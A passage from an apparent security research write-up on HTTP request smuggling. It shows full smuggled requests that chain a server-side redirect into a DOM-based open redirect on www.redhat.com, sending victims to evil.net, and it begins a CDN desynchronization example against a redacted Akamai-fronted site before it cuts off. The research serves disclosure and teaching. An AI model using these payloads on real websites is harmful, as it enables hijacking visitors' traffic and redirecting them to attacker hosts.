 POST / HTTP/1.1
Host: saas-app.com
Cookie: …
"/>
Grasping the DOM
While looking for a vulnerability to chain with request smuggling on www.redhat.com, I found a DOM-based open redirect which presented an interesting challenge:

GET /assets/idx?redir=//redhat.com@evil.net/ HTTP/1.1
Host: www.redhat.com

HTTP/1.1 200 OK

<script>
var destination = getQueryParam('redir')
[poor filtering]
document.location = destination

Some JavaScript on the page was reading the 'redir' parameter from the victim browser's query string, but how could I control it? Request smuggling gives us control over what the server thinks the query string is, but the victim's browser's perception of the query string is simply whatever page they were trying to access.

I was able to resolve this by chaining in a server-side non-open redirect:

POST /css/style.css HTTP/1.1
Host: www.redhat.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Transfer-Encoding: chunked

0

POST /search?dest=../assets/idx?redir=//redhat.com@evil.net/ HTTP/1.1
Host: www.redhat.com
Content-Length: 15

x=GET /en/solutions HTTP/1.1
Host: www.redhat.com

HTTP/1.1 301 Found
Location: ../assets/idx?redir=//redhat.com@evil.net/
The victim browser would receive a 301 redirect to https://www.redhat.com/assets/idx.html?redir=//redat.com@evil.net/which would then execute the DOM-based open redirect and dump them on evil.net

CDN Chaining
Some websites use multiple layers of reverse proxies and CDNs. This gives us extra opportunities for desynchronization which is always appreciated, and it often also increases the severity.

One target was somehow using two layers of Akamai, and despite the servers being by the same vendor it was possible to desynchronize them and thereby serve content from anywhere on the Akamai network on the victim's website:

POST /cow.jpg HTTP/1.1
Host: redacted.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 50 
Transfer-Encoding: chunked 
